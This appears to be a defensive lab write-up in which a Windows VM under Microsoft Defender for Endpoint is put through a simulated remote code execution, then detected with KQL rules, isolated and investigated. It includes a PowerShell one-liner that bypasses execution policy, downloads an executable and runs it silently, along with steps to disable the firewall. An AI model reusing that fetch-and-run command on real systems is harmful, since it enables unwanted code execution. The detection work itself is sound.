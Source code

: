 # 📝 RCE - Remote Code Execution Detection Report (Windows VM)


📌 Introduction

This report outlines the steps taken to detect and mitigate a Remote Code Execution (RCE) attack using Microsoft Defender for Endpoint (MDE) on a Windows Virtual Machine (VM). The lab involved creating an intermediate detection rule, executing a suspicious PowerShell command, triggering alerts, isolating the affected VM, and investigating the attack.
📋 Prerequisites

To complete this lab, the following are required:

- A Windows Virtual Machine (VM)

- Microsoft Defender for Endpoint (MDE) configured

- Microsoft Defender Security Portal Access (security.microsoft.com/machines)

🔥 Lab Execution Steps

1️⃣ Disabling Windows Firewall

To simulate a vulnerable system, the Windows Firewall is turned off:

Press Win + R, type wf.msc, and hit Enter.

Select Turn Windows Firewall on or off and disable it for all profiles.

- (Disabling the firewall allows attackers to discover the VM easily.)

2️⃣ Onboarding the VM to Microsoft Defender for Endpoint

1. Navigate to the MDE Portal: security.microsoft.com/machines

2. Confirm the VM is onboarded by verifying its status in the portal.

3. Verify logs are being generated using Advanced Hunting:

```
DeviceLogonEvents
| where DeviceName startswith "mydevice-"
| order by Timestamp desc
```
3️⃣ Creating a Detection Rule for RCE 🚨

A custom detection rule is created to detect PowerShell-based RCE attempts.

🛠️ Executing a Simulated Remote Code Execution Attack

Use PowerShell ISE to execute the following command:
```
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -NoProfile -Command "Invoke-WebRequest -Uri 'https://sacyberrange00.blob.core.windows.net/vm-applications/7z2408-x64.exe' -OutFile C:\ProgramData\7z2408-x64.exe; Start-Process 'C:\programdata\7z2408-x64.exe' -ArgumentList '/S' -Wait" 
```
🕵️‍♂️ KQL Query for Detection

This query filters logs for Invoke-WebRequest and Start-Process execution:
```
let VMName = "my-vm-name";
DeviceProcessEvents
| where DeviceName == VMName
| where InitiatingProcessCommandLine contains "Invoke-WebRequest" and InitiatingProcessCommandLine contains "Start-Process"
```
🛑 Detection Rule Configuration
To create a detection rule, click the top right corner where it says "Create Detection Rule". You’ll then be taken to the screen where you can complete the Alert Details.
![Screenshot 2025-02-04 at 9 44 56 PM](https://github.com/user-attachments/assets/344d9905-d39c-4af2-bdbf-a81b46afb90b)
Impacted entities:
Define the impacted entities (in this case, the specific VM) for the detection rule.
![image](https://github.com/user-attachments/assets/2c691201-1b8d-4215-a33a-4351aadf7407)
Actions:
Choose the actions that should be taken when the detection rule is triggered. For this rule, we want to ensure that the VM is isolated and an investigation package is collected.
![Screenshot 2025-02-04 at 9 47 03 PM](https://github.com/user-attachments/assets/1a7a59fb-9619-41b8-aea9-4ddf62ed594a)
Summary:
![Screenshot 2025-02-04 at 9 56 19 PM](https://github.com/user-attachments/assets/94dd1a5d-6984-4d1d-9955-2da905f46994)


✔️ Isolate Device

✔️ Collect Investigation Package

4️⃣ Triggering the Alert & Isolating the VM

Execute the PowerShell command to generate logs.

Wait for alerts to appear in Advanced Hunting.

If isolation occurs, the rule has executed successfully.
![Screenshot 2025-02-04 at 10 32 24 PM](https://github.com/user-attachments/assets/0cc324c2-ce11-46a7-a4cc-48f1e7d8f0ef)

5️⃣ Investigating the Security Incident 🔍

Open Microsoft Defender Portal: security.microsoft.com/machines

Select the compromised VM and review the Action Center.

Examine logs using the following KQL query:
```
DeviceProcessEvents
| where DeviceName startswith "tou"
| where AccountName != "system"
| where InitiatingProcessCommandLine has_all ("Invoke-WebRequest", "Start-Process")
| order by Timestamp desc
```
(🔎 This filters logs for suspicious activity and excludes system processes.)

6️⃣ Resolving the Incident & Cleanup 🧹

Assign the alert to your user account and mark it as Resolved ✅.

Delete the detection rule 🚮.

Release the VM from isolation 🔓.

🔔 Conclusion

This lab demonstrated how to detect, contain, and investigate a Remote Code Execution attempt using Microsoft Defender for Endpoint. Proper security monitoring and custom detection rules ensure quick response to potential threats.
